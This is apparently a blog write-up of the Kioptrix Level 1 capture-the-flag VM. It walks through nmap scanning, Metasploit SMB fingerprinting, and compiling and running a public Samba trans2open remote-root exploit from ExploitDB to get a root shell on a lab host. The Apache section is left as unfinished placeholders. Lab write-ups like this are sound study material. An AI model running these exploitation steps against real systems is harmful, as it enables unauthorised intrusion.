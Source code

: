 ```yaml
---
title: Kioptrix Level 1 Walkthrough
date: 2018-09-24
excerpt: "Write-up of the 1st of 5 Kioptrix CTF VM Challenges"
tags: [ctf, cybersec, kioptrix, nmap, metasploit]
---
```


Kioptrix consists of five capture-the-flag virtual machine challenges. I intend to write about my methodology of solving each of them in time. This is the first (and easiest). These have been solved many times by people before me, but I feel they represent a good challenge and that documenting my efforts is key to learning.

You can find the VM for download over at [Vulnhub](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/).

Anyone wishing to run Kioptrix 1 in Virtualbox should consult [this setup guide](https://www.hypn.za.net/blog/2017/07/15/running-kioptrix-level-1-and-others-in-virtualbox/).

## My Setup
Currently, I run Kali in a VM using Virtualbox. I have Kioptrix and any other CTF VMs on a shared NatNetwork with Kali. This way Kali can access the internet and see the VMs. It also keeps everything behind NAT.

**IP Range:** I have my NatNetwork set with a DHCP server with an IP address range of 10.0.2.0/24.
{: .notice}

## VM Discovery
We'll need to get the IP address of the target before we can interact with it. I've used both netdiscover and Nmap's Ping Scan.

```bash
root@kali:~# nmap -sP 10.0.2.0/24
Starting Nmap 7.70 ( https://nmap.org ) at 2018-10-29 15:57 EDT
...
MAC Address: 08:00:27:47:14:87 (Oracle VirtualBox virtual NIC)
Nmap scan report for 10.0.2.8
Host is up (0.00020s latency).
...
Nmap done: 256 IP addresses (5 hosts up) scanned in 2.18 seconds
```

So, my target is 10.0.2.8.

## Port Scanning
Let's see what's available to us over the network using Nmap.
I like to run the following arguments on local VMs:
* -p- All ports (1-65535)
* -sV Service Scan, taking guesses at what services are running on the target.
* -T4 Quick timing, but not overly aggressive.
* -sS Stealth SYN scan.
* -O  OS Detection.

```bash
root@kali:~# nmap -p- -sV -T4 -sS 10.0.2.8
Starting Nmap 7.70 ( https://nmap.org ) at 2018-10-29 16:04 EDT
Nmap scan report for 10.0.2.8
Host is up (0.00012s latency).
Not shown: 65529 closed ports
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 2.9p2 (protocol 1.99)
80/tcp    open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
111/tcp   open  rpcbind     2 (RPC #100000)
139/tcp   open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp   open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
32768/tcp open  status      1 (RPC #100024)
MAC Address: 08:00:27:76:C1:05 (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.21 seconds
```

The important things:
1. OpenSSH 2.9p2 (protocol 1.99) Server running on port 22.
2. Apache 1.3.20 (Red-Hat/Linux) with mods:
    * mod_ssl 2.8.4
    * OpenSSL 0.9.6b
3. Samba on Port 139

## Service Investigation
Let's look at these in detail.

### OpenSSH
I used searchsploit to see if that version of OpenSSH has any public exploits, but I couldn't turn anything up.

### Apache
That version of Apache, combined with that version of mod_ssl is vulnerable to CVE<blah>

<searchsploit for mod_ssl>

<

### Samba
If you aren't aware of [Metasploit](https://www.metasploit.com/), it contains many exploits, scanners, and other wonderful tools. We're going to make use of its Samba scanner.

```bash
root@kali~# msfconsole
...
msf > grep smb search scanner
...
auxiliary/admin/smb/check_dir_file               normal  SMB Scanner Check File/Directory Utility
auxiliary/scanner/smb/smb_version                normal  SMB Version Detection
```

**Grep:** I used 'grep smb search scanner' to filter the results of 'search scanner' to only those with 'smb' in them.
{: .notice}

```bash
msf > use auxiliary/scanner/smb/smb_version
msf auxiliary(scanner/smb/smb_version) > show options

Module options (auxiliary/scanner/smb/smb_version):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   RHOSTS                      yes       The target address range or CIDR identifier
   SMBDomain  .                no        The Windows domain to use for authentication
   SMBPass                     no        The password for the specified username
   SMBUser                     no        The username to authenticate as
   THREADS    1                yes       The number of concurrent threads
```

The important piece is RHOSTS, our target.

```bash
msf auxiliary(scanner/smb/smb_version) > set RHOSTS 10.0.2.8
RHOSTS => 10.0.2.8
msf auxiliary(scanner/smb/smb_version) > run

[.] 10.0.2.8:139          - Host could not be identified: Unix (Samba 2.2.1a)
[.] Scanned 1 of 1 hosts (100% complete)
[.] Auxiliary module execution completed
```

And there's our target's Samba version: 2.2.1a. Let's search for an exploit.

```bash
msf auxiliary(scanner/smb/smb_version) > exit
root@kali~# searchsploit samba | grep 2.2 # Searching for Samba exploits, filtering for version 2.2.x
...
Samba 2.2.2 < 2.2.6 - 'nttrans' Remote Buffer | exploits/linux/remote/16321.rb
Samba 2.2.8 (Linux x86) - 'trans2open' Remote | exploits/linux_x86/remote/16861.rb
Samba 2.2.x - 'call_trans2open' Remote Buffer | exploits/unix/remote/22468.c
Samba 2.2.x - 'call_trans2open' Remote Buffer | exploits/unix/remote/22469.c
Samba 2.2.x - 'call_trans2open' Remote Buffer | exploits/unix/remote/22470.c
Samba 2.2.x - 'call_trans2open' Remote Buffer | exploits/unix/remote/22471.txt
Samba 2.2.x - 'nttrans' Remote Overflow (Meta | exploits/linux/remote/9936.rb
Samba 2.2.x - Remote Buffer Overflow          | exploits/linux/remote/7.pl
Samba < 2.2.8 (Linux/BSD) - Remote Code Execu | exploits/multiple/remote/10.c
```

The "Remote Code Execution" one sounds good. For reference, Kali keeps a local copy of ExploitDB in /usr/share/exploitdb.

```bash
root@kali~# cp /usr/share/exploitdb/exploits/multiple/remote/10.c 10.c # grab a copy of the exploit code
root@kali~# gcc 10.c # compile using GCC
root@kali~# ./a.out
samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
--------------------------------------------------------------
Usage: ./a.out [-bBcCdfprsStv] [host]

-b <platform>   bruteforce (0 = Linux, 1 = FreeBSD/NetBSD, 2 = OpenBSD 3.1 and prior, 3 = OpenBSD 3.2)
-B <step>       bruteforce steps (default = 300)
-c <ip address> connectback ip address
-C <max childs> max childs for scan/bruteforce mode (default = 40)
-d <delay>      bruteforce/scanmode delay in micro seconds (default = 100000)
-f              force
-p <port>       port to attack (default = 139)
-r <ret>        return address
-s              scan mode (random)
-S <network>    scan mode
-t <type>       presets (0 for a list)
-v              verbose mode
```

We'll set the options accordingly, which results in the following command.

```bash
root@kali~# ./a.out -b 0 10.0.2.8
samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
--------------------------------------------------------------
+ Bruteforce mode. (Linux)
+ Host is running samba.
+ Worked!
--------------------------------------------------------------
*** JE MOET JE MUIL HOUWE
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
uid=0(root) gid=0(root) groups=99(nobody)
whoami
root
```

Success! We've got a root shell on the host.

## Finding the flag
Flags tend to be in /root, as that's only viewable by the root user. This time, it was in the mail folder, /var/mail.
Running cat on /var/mail/root (Root's mail file) yielded the flag.

## Conclusions
Overall, this makes for a good introduction to CTFs and the methodology required to solve them. At the simplest: detect, scan, find an exploit, run. The Apache method is a bit more involved, but it showcases some neat tricks.
